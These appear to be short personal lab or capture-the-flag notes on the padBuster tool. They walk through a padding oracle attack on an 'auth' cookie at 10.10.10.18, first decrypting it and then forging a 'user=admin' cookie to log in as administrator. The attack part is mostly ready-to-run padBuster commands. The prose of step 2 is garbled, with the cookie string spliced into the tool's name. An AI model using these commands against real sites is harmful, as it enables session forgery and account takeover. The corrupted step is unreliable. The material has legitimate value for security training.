





## padbuster

```
Automated script for performing Padding Oracle attacks
```

1.  get a sample of encrypted data




2. provide the sample to padt3ys%2FoQAWpJHYkinmbDc1%2FT0F -cookies auth=GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F 8Buster

```
perl padBuster.pl http://10.10.10.18/ GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F -cookies auth=GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F 8
```




3. it will take some time to decrypt.




4. auth=we also perform reverse attack that is encrypting something to this encryption

```
perl padBuster.pl http://10.10.10.18/ GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F -cookies auth=GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F 8 --plaintext user=admin
```




5. set the cookie and we logged in as admin

